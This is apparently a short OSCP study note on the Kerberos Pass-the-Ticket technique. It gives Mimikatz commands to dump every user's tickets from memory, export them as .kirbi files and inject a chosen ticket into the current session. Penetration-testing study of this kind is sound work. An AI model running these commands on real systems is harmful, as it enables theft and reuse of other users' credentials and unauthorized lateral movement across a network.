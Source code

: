 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/o-active-directory-movement/5-pass-the-ticket/"}
---
```


----------
- Dumped tickets from memory may be exported and used anywhere
- Also, if the tickets belong to the current user no administrative privileges are needed

### Pass-the-Ticket using Mimikatz:
1. Start Mimikatz and enable debug.
2. Dump all Kerberos tickets from memory (including logged in users):
```
sekurlsa::tickets /export
```
3. List all dumped tickets:
```
dir *.kirbi
```
5. Inject any selected ticket:
```
kerberos::ptt ticket.kirbi
```
6. Examine ticket:
```
klist
```

